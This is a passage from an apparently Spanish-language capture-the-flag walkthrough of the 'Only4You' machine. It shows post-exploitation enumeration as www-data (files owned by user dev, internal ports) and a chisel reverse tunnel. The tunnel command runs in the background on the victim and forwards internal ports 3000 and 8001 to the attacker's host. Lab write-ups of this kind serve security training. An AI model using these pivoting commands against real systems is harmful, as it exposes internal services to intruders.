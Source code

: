 ```null
www-data@only4you:/$ find \-user dev 2>/dev/null 
./opt/internal_app
./opt/gogs
./home/dev
```

Interamente, están abiertos los puertos ```3000``` y ```8001```

```null
www-data@only4you:/$ ss -nltp
State             Recv-Q            Send-Q                            Local Address:Port                        Peer Address:Port            Process                                                             
LISTEN            0                 4096                                  127.0.0.1:3000                             0.0.0.0:*                                                                                   
LISTEN            0                 2048                                  127.0.0.1:8001                             0.0.0.0:*                                                                                   
LISTEN            0                 70                                    127.0.0.1:33060                            0.0.0.0:*                                                                                   
LISTEN            0                 151                                   127.0.0.1:3306                             0.0.0.0:*                                                                                   
LISTEN            0                 511                                     0.0.0.0:80                               0.0.0.0:*                users:(("nginx",pid=1048,fd=6),("nginx",pid=1047,fd=6))            
LISTEN            0                 4096                              127.0.0.53%lo:53                               0.0.0.0:*                                                                                   
LISTEN            0                 128                                     0.0.0.0:22                               0.0.0.0:*                                                                                   
LISTEN            0                 4096                         [::ffff:127.0.0.1]:7687                                   *:*                                                                                   
LISTEN            0                 50                           [::ffff:127.0.0.1]:7474                                   *:*                                                                                   
LISTEN            0                 128                                        [::]:22                                  [::]:*
```

Para poder tener conectividad desde mi equipo, utilizo ```chisel```. En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

Desde la máquina víctima como cliente

```null
www-data@only4you:/tmp$ ./chisel client 10.10.16.40:1234 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001 &>/dev/null & disown
```
